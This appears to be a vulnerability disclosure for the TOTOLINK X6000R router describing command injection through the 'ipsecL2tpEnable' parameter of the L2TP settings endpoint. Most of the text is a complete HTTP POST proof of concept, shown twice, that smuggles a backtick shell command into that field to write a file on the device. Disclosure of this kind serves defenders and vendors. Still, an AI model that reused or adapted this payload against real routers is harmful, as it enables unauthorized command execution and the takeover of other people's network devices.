 # Summary
There is a command execution vulnerability in TOTOLINK X6000R(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/l2tp.html", and vulnerable paramter is **"ipsecL2tpEnable"**.

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/f988b107-ec6e-4f29-8749-0e34f26d919b)

Capture the packet and do a blind test directly, we edit the value of `ipsecL2tpEnable` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 239
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"`ls >/web/poc_l2tp_ipsecL2tpEnable.txt`","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/2b4c766e-2f59-48bd-8f07-66dde4bed12f)

![image](https://github.com/user-attachments/assets/6faf3211-951a-4002-9a31-2b55472acf53)


# PoC
Capture the packet and do a blind test directly, we edit the value of `ipsecL2tpEnable` to a command to execute:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 239
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"`ls >/web/poc_l2tp_ipsecL2tpEnable.txt`","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```
![image](https://github.com/user-attachments/assets/2b4c766e-2f59-48bd-8f07-66dde4bed12f)

![image](https://github.com/user-attachments/assets/6faf3211-951a-4002-9a31-2b55472acf53)
